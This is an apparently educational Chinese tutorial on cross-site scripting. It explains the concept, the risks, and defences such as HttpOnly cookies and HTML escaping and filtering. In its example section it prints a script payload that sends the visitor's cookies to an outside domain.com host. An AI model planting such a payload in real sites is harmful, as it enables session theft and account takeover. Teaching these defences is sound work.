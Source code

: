 # 跨站脚本攻击

### 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

### 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>
  location.href = "//domain.com/?c=" + document.cookie;
</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p>
  <script>
    location.href = "//domain.com/?c=" + document.cookie;
  </script>
</p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

### 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

### 防范手段

#### 1. 设置 Cookie 为 HttpOnly

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

#### 2. 过滤特殊字符

例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行。

富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。

富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。

以下例子中，form 和 script 等标签都被转义，而 h 和 p 等标签将会保留。

```html
<h1 id="title">XSS Demo</h1>

<p>123</p>

<form>
  <input type="text" name="q" value="test" />
</form>

<pre>hello</pre>

<script type="text/JavaScript">
  alert(/xss/);
</script>
```

```html
<h1>XSS Demo</h1>

<p>123</p>

&lt;form&gt; &lt;input type="text" name="q" value="test"&gt; &lt;/form&gt;

<pre>hello</pre>

&lt;script type="text/JavaScript"&gt; alert(/xss/); &lt;/script&gt;
```
